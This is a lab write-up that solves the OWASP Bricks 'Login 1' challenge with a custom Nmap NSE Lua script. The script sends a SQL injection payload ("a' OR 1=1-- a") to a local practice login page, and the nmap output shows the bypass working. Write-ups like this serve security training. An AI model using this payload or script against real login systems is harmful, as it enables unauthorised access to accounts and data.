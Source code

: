 ```yaml
---
date: '2024-12-03T16:23:31+08:00'
title: 'Bricks Login 1'
tags:
    - OWASP-Bricks
    - NSE
---
```


## Challenge Information

- [OWASP Bricks](https://sechow.com/bricks/)
- Docker version: [here](https://hub.docker.com/r/gjuniioor/owasp-bricks)


> This is a series where I will write my own Nmap NSE script to solve that challenge. This is actually a task given by [masta ghimau](https://www.youtube.com/@mastaghimau) during [MCC 2023](https://cybercamp.my/mcc2023-the-journey-begins/).


## Challenge Solution

Login level 1 is just a simple SQL injection. The hardest part is writing a custom NSE script.

```lua
local http = require "http"
local shortport = require "shortport"

portrule = shortport.http

action = function(host,port)
  local resp,final,query
  r={}
  r['username']="a' OR 1=1-- a"
  r['passwd']="test"
  r['submit']="Submit"
  resp = http.post(host,port,"/login-1/index.php",nil,nil,r)


  final = string.match(resp.body, '<p>.*alert%-box.->(.-)<a.*</p>')
  query = string.match(resp.body, ".*SQL Query(.*)<a.*</div>")

  return {payload = r ,SQLQuery = query , result = final}
end
```

This code is built based on `http-title.nse`.

```bash
nmap -p 80 --script=chall1.nse 127.0.0.1
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-28 19:52 +08
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00013s latency).

PORT   STATE SERVICE
80/tcp open  http
| chall1:
|   payload:
|     submit: Submit
|     passwd: test
|     username: a' OR 1=1-- a
|   SQLQuery: : SELECT * FROM users WHERE name='a' OR 1=1-- a' and password='test'
|_  result: Succesfully logged in.

Nmap done: 1 IP address (1 host up) scanned in 0.15 seconds
```

## Things I learned from the challenge

- Writing custom NSE script

